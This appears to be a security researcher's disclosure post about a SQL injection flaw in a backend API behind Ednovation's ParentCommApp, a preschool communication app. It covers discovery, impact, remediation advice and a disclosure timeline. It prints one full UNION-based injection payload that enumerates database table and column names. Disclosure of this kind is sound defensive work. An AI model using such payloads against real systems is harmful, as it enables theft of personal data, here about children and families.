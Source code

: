 ```yaml
---
layout: post
# Possible CVE status: "CVE REQUESTED", "CVE RESERVED", "REPORTED", "FIXED", "FIXED – NO CVE", "NO RESPONSE", "UNPATCHED", "CVE-YYYY-NNNNN"
title: "[CVE REQUESTED] ParentCommApp SQL Injection Backend API"
date: 2025-07-26
cve: "Reported"
status: "Fixing"
categories: [Disclosure]
tags: [cve-requested, CVE, sql-injection, pii-exposure, ednovation, parentcommapp, vulnerability, ios, api]
permalink: /disclosures/parentcommapp-sql-injection-backend-api/
---
```


## Summary

A **SQL injection vulnerability** was identified in a backend API supporting Ednovation's ParentCommApp — a communication platform used by preschools and parents. The vulnerability allows attackers to manipulate request parameters and potentially extract unauthorized records from the database.

> **Ednovation**, headquartered in Singapore, is a leading provider of preschool education services across Asia, has evolved into a chain of more than 60 pre-schools and enrichment centres across Singapore, China and ASEAN.

## Background & Discovery

This issue was discovered while testing the ParentCommApp on iOS, where traffic was intercepted using **Burp Suite**. After logging in and intercepting traffic, it was observed that the API call used to fetch child attendance status did not include any form of validation and accepted unsanitized input — indicating a server-side flaw rather than a client implementation issue.

## Affected Product

- **Vendor**: [Ednovation](https://ednovation.com)
- **App**: ParentCommApp (iOS)
- **Platform**: Backend APIs serving iOS/Android apps
- **Version**: Affected prior to 2022 remediation

## Vulnerability Details

While testing the iOS version of ParentCommApp using **Burp Suite**, an API call responsible for fetching child attendance status was observed to be vulnerable to **SQL injection**.

The vulnerable API accepted a `childId` parameter via POST request body and failed to sanitize the input. Manual testing with SQL payloads like:

```sql
'date=Sun%20Jun%2026%2016%3A19%3A23%20GMT%2B0800%202022&childId=12 UNioN \x0d\x0a  (\x0d\x0a    SELECT 111, 222, 333, 444, 555, 666, 777, 888, 999, 101010,\x0d\x0a      group_concat(a.combine separator \',\'), \x0d\x0a      121212, 131313, 141414   \x0d\x0a    from \x0d\x0a      (\x0d\x0a        SELECT \x0d\x0a          concat(\x0d\x0a            \'\"\', \x0d\x0a            table_name, \x0d\x0a            \'\"\', \x0d\x0a            \':\', \x0d\x0a            \'[\', \x0d\x0a            GROUP_CONCAT(\x0d\x0a              concat(\'\"\', COLUMN_NAME, \'\"\') separator \',\'\x0d\x0a            ), \x0d\x0a            \']\'\x0d\x0a          ) as combine \x0d\x0a        FROM \x0d\x0a          INFORMATION_SCHEMA.COLUMNS \x0d\x0a        WHERE \x0d\x0a          TABLE_SCHEMA = \'dev_XXXX\' \x0d\x0a        GROUP BY \x0d\x0a          TABLE_NAME \x0d\x0a        ORDER BY \x0d\x0a          table_name\x0d\x0a      ) as a\x0d\x0a  )\x0d\x0alimit 1,2#&action=getChildAttendanceStatus'
```

resulted in expanded database output, confirming an **authentication-independent injection flaw**.

## Exploitation Impact

- **Sensitive data disclosure**: Unauthorized access to other child/parent/teacher records
- **Database enumeration**: Potential for data extraction beyond target record

## **Security Best Practices Recommended**:

Vendors should validate and sanitize all input parameters server-side. Use parameterized queries and ORM frameworks to prevent injection flaws.

## Timeline

- **2022-07**: Issue discovered and responsibly reported to vendor  
- **2022-07**: Vendor acknowledged and deployed a patch  
- **2025-07**: Disclosure and CVE request initiated  
